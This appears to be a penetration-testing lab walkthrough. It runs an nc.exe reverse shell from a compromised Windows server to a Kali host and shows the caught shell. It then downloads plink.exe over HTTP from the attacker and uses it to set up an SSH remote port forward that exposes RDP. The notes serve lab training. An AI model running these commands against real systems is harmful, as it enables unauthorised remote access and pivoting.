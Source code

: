Use `nc.exe` to send reverse shell to Kali

```
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446
```

Catch reverse shell

```
listening on [any] 4446 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.64] 51889
Microsoft Windows [Version 10.0.20348.825]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

Now download Plink to MULTISERVER03 from Kali's Apache2 service

Move plink.exe to Apache2 webroot
```hlt:1,4
kali@kali:~$ find / -name plink.exe 2>/dev/null
/usr/share/windows-resources/binaries/plink.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
[sudo] password for kali: 
```

Download plink.exe to MULTISERVER03 from Kali

```
c:\windows\system32\inetsrv>powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe

c:\windows\system32\inetsrv>
```

Use plink.exe to set up remote port forward to Kali so we can access RDP locally.

```
c:\windows\system32\inetsrv>C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```

If can't accept the prompt asking if we want to store server key in cache, can echo in the confirmation:

`cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.41.7`

Confirm port 9833 is open on Kali

```hlt:1,3
kali@kali:~$ ss -ntplu
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port Process
tcp   LISTEN 0      128        127.0.0.1:9833      0.0.0.0:*
```

Connect to RDP on MULTISERVER03 using rdp_admin creds

